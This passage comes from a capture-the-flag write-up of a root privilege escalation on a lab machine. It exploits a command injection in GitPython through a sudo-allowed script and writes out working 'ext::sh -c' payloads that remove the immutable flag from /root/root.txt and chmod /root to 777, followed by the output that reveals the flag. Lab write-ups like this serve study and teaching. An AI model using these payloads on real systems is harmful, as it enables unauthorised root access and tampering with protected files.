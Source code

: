 Here was my next blocking point. I've learned to never take these scripts for granted, as there's always some minutiea in here that matters to the exercises, especially in an 'easy' level challenge. 

I spent some time abusing argv1 to try passing in different command line parameters as the errors that would be generated here showed `cmdline: git clone <args> -c protocol.ext.allow=always <my argv1> new_change`

However, of course, there was more to the challenge than that. I started to search for every flag in that command and ran into some interesting notes about various vulnerabilities about how the python git libraries had a chance to call the `git` binary directly without proper user input validation. 

Checking on the versions of the git packages for vulnerabilities...


```python
pprint(run_prod_command('pip list | grep -i git'))
print(source)
```

    ['gitdb                 4.0.10\n', 'GitPython             3.1.29\n']
    ['10.10.14.194']


I found a POC and a 9+ CSV

https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

After spending some time trying to spin up reverse shells or cat out the file from this vector, I decided to go a more destructive route. 

Trying to chmod the directory threw errors about /root/root.txt being immutable.

So here's what ended up working:

1. `chattr -i /root/root.txt` 
```sh
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chattr% -i% /root/root.txt'
Traceback (most recent call last):
#snip
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chattr% -i% /root/root.txt new_changes
  stderr: 'Cloning into 'new_changes'...'
#snip
```

2. `chmod -R 777 /root`
```sh
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% -R% 777% /root'
Traceback (most recent call last):
#snip
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% -R% 777% /root new_changes
  stderr: 'Cloning into 'new_changes'...'
#snip
```

3. Draw the rest of the owl.
```sh
prod@editorial:/opt/internal_apps/clone_changes$ ls /root/
root.txt
prod@editorial:/opt/internal_apps/clone_changes$ cat /root/root.txt
36f70cec6d49bd393f7786af05c06a4e
```
